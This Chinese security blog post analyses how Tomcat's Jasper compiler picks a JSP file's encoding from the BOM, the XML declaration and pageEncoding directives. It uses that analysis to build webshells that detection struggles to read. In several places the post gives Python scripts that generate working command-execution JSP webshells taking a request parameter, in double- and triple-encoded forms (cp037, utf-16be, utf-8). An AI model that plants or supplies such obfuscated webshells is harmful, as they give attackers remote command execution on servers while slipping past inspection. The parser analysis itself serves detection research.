## 浅谈JspWebshell之编码

- - -

\## 写在前面

最近@phithon在知识星球中分享了一个多重编码的webshell姿势后，先膜一下大佬

[](https://storage.tttang.com/media/attachment/2022/11/22/8198eb93-ba5d-40f7-a1de-5e419b6f8f08.png)

出于对代码实现的好奇简单看了看tomcat的具体实现以及尝试是否能够更深入的目的也便有了本篇，当然后面也发现这种方式不太灵活是`有一定编码限制`的，后面也会提到，当然最终经过我的努力，发现了其他`三种实现双重编码的方式`，甚至最后发现可以实现`三重编码`

那么下面就进入正文吧

## [环境相关及其他说明](#toc_)

​ 本篇以tomcat8.0.50为例进行分析，后文简称为tomcat，同时讨论的是第一次访问并编译jsp的过程(有小区别不重要)并且不涉及到其他小版本差异

## [正文](#toc__1)

这里没有那么多废话，我们知道其实jsp是Servlet技术的扩展，它本身也是一种模板，通过对这个模板内容的解析，根据一定规则拼接到一个java文件后最终会编译为一个class文件并加载，在这个过程当中就涉及的很多解析的过程，这里由于主题限制，我们不必太过关心，我们重点偏向于去了解它的编码是如何被识别的即可.

对于这部分处理逻辑其实是由`org.apache.jasper.compiler.ParserController#determineSyntaxAndEncoding`做处理，在这个类方法当中有两个比较重要的属性`isXml`与`sourceEnc`，字面理解就能得出一个判定是否jsp格式是通过xml格式编写，另一个`sourceEnc`也就决定着jsp文件的编码相关

### [关于xml格式的一些简单说明](#toc_xml)

  

#### [xml声明](#toc_xml_1)

这里我们我们只需要知道encoding属性可以决定内容编码即可

tomcat对于xml格式还算比较严格，其中如果需要用到xml声明`<?xml`要求“必须”在首位，说明下这里的必须指的是需要解析并获取这个标签中的属性，比如encoding就决定着后续内容的编码，我们需要它生效就需要将这个xml声明放置在文件内容最前面(Ps：这里的最前面指的是被解码后的字符在文件最前面，并不是一定要求是原生的字符串<?xml)，当然如果不需要其实这里就不太重要了

```plain
<?xml version="1.0" encoding="utf-8" ?>
```

如果个人比较好奇这部分代码逻辑可以自行看看`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncoding(java.io.InputStream, org.apache.jasper.compiler.ErrorDispatcher)`

#### [如何识别我们的文件内容是xml格式](#toc_xml_2)

接下来再来简单说说是如何识别我们的文件是xml格式的呢？

首先是根据后缀名`.jspx`或`.tagx`，当然这俩不在我们今天讨论的范围内

如果后缀名不符合则根据文本内容是否包含有形如`<xxx:root`格式的文本，如果有也会识别为一个xml格式

### [如何决定一个文件的编码](#toc__2)

  

#### [如何从字节顺序标记(BOM)判断文本内容编码](#toc_bom)

简单来说这部分逻辑其实和W3C所定义的一致

W3C定义了三条XML解析器如何正确读取XML文件的编码的规则：  
1.如果文挡有BOM(字节顺序标记)，就定义了文件编码  
2.如果没有BOM，就查看XML encoding声明的编码属性  
3.如果上述两个都没有，就假定XML文挡采用UTF-8编码

我们的tomcat对这部分实现也是手写根据文件前4个字节(BOM)来决定文件的编码(`org.apache.jasper.compiler.ParserController#determineSyntaxAndEncoding`)

具体是通过函数`XMLEncodingDetector#getEncoding`来动态决定编码

```plain
private Object[] getEncoding(InputStream in, ErrorDispatcher err)
  throws IOException, JasperException
{
  this.stream = in;
  this.err=err;
  createInitialReader();
  scanXMLDecl();

  return new Object[] { this.encoding,
                       Boolean.valueOf(this.isEncodingSetInProlog),
                       Boolean.valueOf(this.isBomPresent),
                       Integer.valueOf(this.skip) };
}
```

在这里有两个关键函数，它们都能决定整个文件内容的编码

```plain
createInitialReader();
scanXMLDecl();
```

其中`createInitialReader`作用有两个一个是根据前四个字节(bom)决定encoding也就是编码，接着往里看在`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`中

[](https://storage.tttang.com/media/attachment/2022/11/22/cd6016bd-dd4b-4f87-bf61-d97a9c7bb433.png)

逻辑很简单，就是根据前4个字节顺序标记判定文件编码

```plain
private Object[] getEncodingName(byte[] b4, int count) {
        if (count < 2) {
            return new Object[]{"UTF-8", null, Boolean.FALSE, Integer.valueOf(0)};
        }
        int b0 = b4[0] & 0xFF;
        int b1 = b4[1] & 0xFF;
        if (b0 == 0xFE && b1 == 0xFF) {
            return new Object [] {"UTF-16BE", Boolean.TRUE, Integer.valueOf(2)};
        }
        if (b0 == 0xFF && b1 == 0xFE) {
            return new Object [] {"UTF-16LE", Boolean.FALSE, Integer.valueOf(2)};
        }

        if (count < 3) {
            return new Object [] {"UTF-8", null, Boolean.FALSE, Integer.valueOf(0)};
        }

        int b2 = b4[2] & 0xFF;
        if (b0 == 0xEF && b1 == 0xBB && b2 == 0xBF) {
            return new Object [] {"UTF-8", null, Integer.valueOf(3)};
        }

        if (count < 4) {
            return new Object [] {"UTF-8", null, Integer.valueOf(0)};
        }

        int b3 = b4[3] & 0xFF;
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x00 && b3 == 0x3C) {
            return new Object [] {"ISO-10646-UCS-4", Boolean.TRUE, Integer.valueOf(4)};
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x00 && b3 == 0x00) {
            return new Object [] {"ISO-10646-UCS-4", Boolean.FALSE, Integer.valueOf(4)};
        }
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x3C && b3 == 0x00) {
            return new Object [] {"ISO-10646-UCS-4", null, Integer.valueOf(4)};
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x00) {
            return new Object [] {"ISO-10646-UCS-4", null, Integer.valueOf(4)};
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x3F) {
            return new Object [] {"UTF-16BE", Boolean.TRUE, Integer.valueOf(4)};
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x3F && b3 == 0x00) {
            return new Object [] {"UTF-16LE", Boolean.FALSE, Integer.valueOf(4)};
        }
        if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            return new Object [] {"CP037", null, Integer.valueOf(4)};
        }

        return new Object [] {"UTF-8", null, Boolean.FALSE, Integer.valueOf(0)};

    }
```

`createInitialReader`另一个作用就是初始化Reader对象(`reader = createReader(stream, encoding, isBigEndian)`)，在Reader里面带有我们对文件编码以及字节序列大小端的关键信息，为下一步调用`scanXMLDecl`扫描解析xml的申明内容做了一个前置准备，在`scanXMLDecl`当中我们其实只需要关注和编码相关的属性(Ps:具体逻辑可以自己看看代码也比较简单，这里相关度不高不多提)，也就是上面xml小节里面提到的

```plain
<?xml version="1.0" encoding="utf-8" ?>
```

这里面xml属性的encoding也可以决定整个文件的编码内容，同时我们可以发现这个encoding可以覆盖掉上一步的函数`createInitialReader();`(通过前四字节识别出的编码识别的encoding)，因此配合这个我们也可以构造出一种新的双编码jspwebshell，最后会提到

#### [无法根据前四个字节判断文本编码怎么办](#toc__3)

当无法根据前四个字节判断文本编码时，jsp还提供了另一种方式帮助识别编码，对应下图中的`getPageEncodingForJspSyntax`

[](https://storage.tttang.com/media/attachment/2022/11/22/58035a40-aeac-4ee2-9c7a-1b09a45afe81.png)

有兴趣看看这个函数的实现

```plain
private String getPageEncodingForJspSyntax(JspReader jspReader,
            Mark startMark)
    throws JasperException {

        String encoding = null;
        String saveEncoding = null;

        jspReader.reset(startMark);

        while (true) {
            if (jspReader.skipUntil("<") == null) {
                break;
            }
            if (jspReader.matches("%--")) {
                if (jspReader.skipUntil("--%>") == null) {
                    break;
                }
                continue;
            }
            boolean isDirective = jspReader.matches("%@");
            if (isDirective) {
                jspReader.skipSpaces();
            }
            else {
                isDirective = jspReader.matches("jsp:directive.");
            }
            if (!isDirective) {
                continue;
            }

            if (jspReader.matches("tag ") || jspReader.matches("page")) {

                jspReader.skipSpaces();
                Attributes attrs = Parser.parseAttributes(this, jspReader);
                encoding = getPageEncodingFromDirective(attrs, "pageEncoding");
                if (encoding != null) {
                    break;
                }
                encoding = getPageEncodingFromDirective(attrs, "contentType");
                if (encoding != null) {
                    saveEncoding = encoding;
                }
            }
        }

        if (encoding == null) {
            encoding = saveEncoding;
        }

        return encoding;
    }
```

课代表直接总结了，简单来说最终其实就是根据文本内容中的pageEncoding的值来决定最终编码，这里有两种写法

第一种

```plain
<%@ page language="java" pageEncoding="utf-16be"%>
或
<%@ page contentType="charset=utf-16be" %>
或
<%@ tag language="java" pageEncoding="utf-16be"%>
或
<%@ tag contentType="charset=utf-16be" %>
```

第二种

```plain
<jsp:directive.page pageEncoding="utf-16be"/>
或
<jsp:directive.page contentType="charset=utf-16be"/>
或
<jsp:directive.tag pageEncoding="utf-16be"/>
或
<jsp:directive.tag contentType="charset=utf-16be"/>
```

同时如果使用的`page`后面可以不需要空格,也就是形如`<%@ pagepageEncoding="utf-16be" %>`或`<jsp:directive.pagepageEncoding="utf-16be"/>`具体可以看看代码的解析这部分不重要

因此看到这里你就知道为什么开头提到的phithon提供的demo能够成功解析的原因了  
[](https://storage.tttang.com/media/attachment/2022/11/23/55e42ea5-3298-41e7-b6cf-c5ec2fddb87b.png)  
第二种  
[](https://storage.tttang.com/media/attachment/2022/11/23/b76c871e-7e9f-48d0-aba8-7b43596353db.png)  
第三种  
[](https://storage.tttang.com/media/attachment/2022/11/23/4bcf41c8-cad0-45d7-832f-9007e472644d.png)

#### [为什么上面这个有一定局限性现](#toc__4)

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定XML文挡采用UTF-8编码，最终才能保证`isBomPresent`为false，因此这种利用的局限性在于文件头只能是utf8格式才能保证代码逻辑的正确执行

#### [更灵活的双编码jspwebshell](#toc_jspwebshell)

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个python生成一个即可作为演示

```plain
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>'''

with open("test.jsp","wb") as f:
    f.write(a0.encode("utf-16"))
    f.write(a1.encode("cp037"))
```

简单测试没毛病

[](https://storage.tttang.com/media/attachment/2022/11/22/fba1a8f4-9007-4706-8b58-83c10ee77677.png)

访问测试

[](https://storage.tttang.com/media/attachment/2022/11/22/a34a51b1-0a29-405e-bc62-100161b33cca.png)

多说一下这里也只是相对灵活，从执行逻辑来看必须要是`XMLEncodingDetector#getEncodingName`能够识别的范围才行，因此在我这个版本中其实对应着`UTF-8\UTF-16BE\UTF-16LE\ISO-10646-UCS-4\CP037`作为前置编码，当然后置就无所谓啦基本上java中的都行

#### [避免双编码踩坑](#toc__5)

这里面有一个很大的坑！什么坑呢？

这里我们以前置cp037+后置utf-16为例进行说明

我们看看前置部分，通常我们在写前置部分的时候不会在意其长度，比如下面的代码输出长度为41，这就是一个巨大的坑点！

```plain
a0 = '''<?xml version="1.0" encoding='utf-16be'?>'''
print(len(a0.encode("cp037")))
```

为什么？我们前面说过在后面通过文件内容判断是否为xml格式时，是通过检查里面是否含有`<xxx:root`这样的代码片段来进行判断，但是我们可以看看红色箭头，这里是直接把整个文件内容放在jspReader当中做解码

[](https://storage.tttang.com/media/attachment/2022/11/22/dbb01803-4b64-46bc-bf7e-be3c5d28ebd5.png)

这意味着什么，我们刚刚说了前面部分长度是单数，而对于我们的utf-16是两个字节去解码，这就导致

本来这里应该是`003c`作为一个整体，由于前面`c3p0`编码后长度为单数，导致最终为`3c00`去做了解码，因此最终导致识别不到`<xxx:root`这样的代码片段，就导致程序认为这并不是一个xml格式的写法

[](https://storage.tttang.com/media/attachment/2022/11/22/d1bea2e4-d184-46a7-a6cc-ffb4e465457d.png)

最终在`org.apache.jasper.compiler.ParserController#doParse`做解析并拼接jsp模板的时候无法成为正确的代码，而识别不到正确的格式就导致执行下面分支出错，原本该是执行的代码变成了一堆乱码显示到页面中(有兴趣可以看看下面)这个分支中具体的解析流程也蛮有意思)

[](https://storage.tttang.com/media/attachment/2022/11/22/b433e221-a51f-433f-b35f-e9467823c90a.png)

#### [任意放置的jspReader.matches与%@](#toc_jspreadermatches)

刚刚我们只提到了这两个标签的利用具有编码的局限性，然而如果你再仔细看我们后面提出的两种新的编码利用会发现在函数`getPageEncodingForJspSyntax`中，它通过while循环不断往后查找符号`<`，之后在调用`jspReader.matches`寻找`%@`或`jsp:directive.`

```plain
private String getPageEncodingForJspSyntax(JspReader jspReader,
            Mark startMark)
    throws JasperException {

        xxxx

        while (true) {
            if (jspReader.skipUntil("<") == null) {
                break;
            }
                xxxx
            boolean isDirective = jspReader.matches("%@");
            if (isDirective) {
                jspReader.skipSpaces();
            }
            else {
                isDirective = jspReader.matches("jsp:directive.");
            }
            if (!isDirective) {
                continue;
            }

           xxxx
    }
```

因此从这里我们可以看出`<jsp:directive.`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

[](https://storage.tttang.com/media/attachment/2022/11/23/e5869b44-7d86-4c49-80ed-5dfe89babf76.png)

测试demo

```plain
a0 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a2 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test2.jsp","wb") as f:
    f.write(a0.encode("utf-16be"))
    f.write(a1.encode("utf-8"))
    f.write(a2.encode("utf-16be"))
```

成功利用  
[](https://storage.tttang.com/media/attachment/2022/11/23/ef43d678-ac48-4a81-a629-4b1024ee80a5.png)

#### [三重编码](#toc__6)

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`<jsp:directive.`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

```plain
JspReader jspReader = null;
try {
  jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);
} catch (FileNotFoundException ex) {
  throw new JasperException(ex);
}
```

聪明的你一定能看出这里的`sourceEnc`是我们可以控制的(前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

1.  保证无法通过BOM识别出文本内容编码(保证isBomPresent为false)
2.  通过`<?xml encoding='xxx'`可以控制`sourceEnc`的值
3.  将标签`<jsp:directive.`或`<%@`放置在全文任意位置但不影响代码解析
4.  通过标签`<jsp:directive.`或`<%@`的`pageEncoding`属性再次更改文本内容编码

这里我按要求随便写了一个符合的例子

```plain
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a3 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test3.jsp","wb") as f:
    f.write(a0.encode("utf-8"))
    f.write(a1.encode("utf-16be"))
    f.write(a2.encode("cp037"))
    f.write(a3.encode("utf-16be"))
```

生成三重编码文件

